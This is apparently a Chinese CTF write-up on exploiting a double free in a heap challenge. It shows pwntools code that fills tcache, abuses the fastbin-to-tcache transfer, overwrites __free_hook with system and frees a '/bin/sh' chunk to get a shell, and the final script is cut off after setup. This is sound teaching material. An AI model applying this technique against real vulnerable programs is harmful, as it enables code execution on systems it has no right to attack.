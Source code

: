 double free：

```
for i in range(9):
	create(0x68,"1"*0x68,"AAA") #3-11
for i in range(7):
	free(i+3) # 3-9

create(0x68,"1"*0x68,"AAA") #12
create(0x68,"1"*0x68,"AAA") #13

# fill the chunk
free(10)
free(11)
# double free
free(12)
free(13)
#pause()
free(12)
```

如果此时再创建新的chunk的话，会先从tcache里面去拿而不是fastbin里，所以要先add 7 个新的chunk，然后再劫持fd进行利用攻击。这里是直接malloc到`__free_hook`，改`__free_hook`为system然后free掉一个内容为`/bin/sh\x00`的堆块即可getshell。

等等，你还有疑问？为什么能直接malloc到`__free_hook`？不是会检查堆头吗？好吧其实是这样的，当add完七个chunk之后再创建新的chunk的时候，它会去fastbin去找，当找到一个适合的时候，他会把**整个链表**到全部放到tcache里面，并把fastbin清空。所以当后面分配的时候其实就是通过tcache分配，而tcache分配又有一个特点就是他不会检查堆头，所以我们分配到哪里都可以的啦。

利用：

```
for i in range(7):
	create(0x68,"1"*0x68,"AAA") # 14-20  add 7 tcache chunk

create(0x68,p64(free_hook),"AAA") #21
create(0x68,"3"*0x60,"AAA") #22
create(0x68,"/bin/sh\x00","AAA") #23
create(0x68,p64(system),"AAA") #24
free(23)
```

下面做一些知识介绍：

关于内存申请：
在内存分配的 malloc 函数中有多处，会将内存块移入 tcache 中。
（1）首先，申请的内存块符合 fastbin 大小时并且找到在 fastbin 内找到可用的空闲块时，会把该 fastbin 链上的其他内存块放入 tcache 中。
（2）其次，申请的内存块符合 smallbin 大小时并且找到在 smallbin 内找到可用的空闲块时，会把该 smallbin 链上的其他内存块放入 tcache 中。
（3）当在 unsorted bin 链上循环处理时，当找到大小合适的链时，并不直接返回，而是先放到 tcache 中，继续处理。

关于内存申请的检查部分：
当tcache存在时，释放堆块没有对堆块的前后堆块进行合法性校验，只需要构造本块对齐就可以成功将任意构造的堆块释放到tcache中，而在申请时，tcache对内部大小合适的堆块也是直接分配的，并且对于在tcache内任意大小的堆块管理方式是一样的，导致常见的house_of_spirit可以延伸到smallbin。


详细代码如下：

```
from pwn import *
#context(os='linux', arch='amd64', log_level='debug')
local = 1

if local:
	p = process("./chall")
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

else:
	p = remote("34.92.96.238",10001)
	#libc = ELF("libc.so.6")

```